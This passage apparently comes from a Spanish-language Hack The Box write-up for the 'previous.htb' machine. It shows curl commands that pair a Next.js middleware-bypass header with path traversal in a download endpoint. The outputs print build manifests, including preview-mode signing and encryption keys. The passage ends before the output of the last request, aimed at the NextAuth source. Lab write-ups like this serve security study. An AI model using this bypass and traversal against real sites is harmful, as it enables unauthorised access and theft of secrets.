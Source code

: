 ```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.next/prerender-manifest.json"
```

Info:

```
{
  "version": 4,
  "routes": {},
  "dynamicRoutes": {},
  "preview": {
    "previewModeId": "491840debc08d71affc165ef8084f2c8",
    "previewModeSigningKey": "6688caac8986183042394d23aa9565fb674a38a3613d45b2fbabe6542f28c87f",
    "previewModeEncryptionKey": "ea19262bf8a3caf7618bd617a1352695609534438b49ae035b2ee0b84024490c"
  },
  "notFoundRoutes": []
}
```

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../.next/server/pages-manifest.json"
```

Info:

```
{
  "/_app": "pages/_app.js",
  "/_error": "pages/_error.js",
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
  "/api/download": "pages/api/download.js",
  "/docs/[section]": "pages/docs/[section].html",
  "/docs/components/layout": "pages/docs/components/layout.html",
  "/docs/components/sidebar": "pages/docs/components/sidebar.html",
  "/docs/content/examples": "pages/docs/content/examples.html",
  "/docs/content/getting-started": "pages/docs/content/getting-started.html",
  "/docs": "pages/docs.html",
  "/": "pages/index.html",
  "/signin": "pages/signin.html",
  "/_document": "pages/_document.js",
  "/404": "pages/404.html"
}
```

Sabiendo esto podremos analizar la siguiente ruta bastante interesante:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" 'http://previous.htb/api/download?example=../../.next/server/pages/api/auth/\[...nextauth\].js'
```

Info:

```
```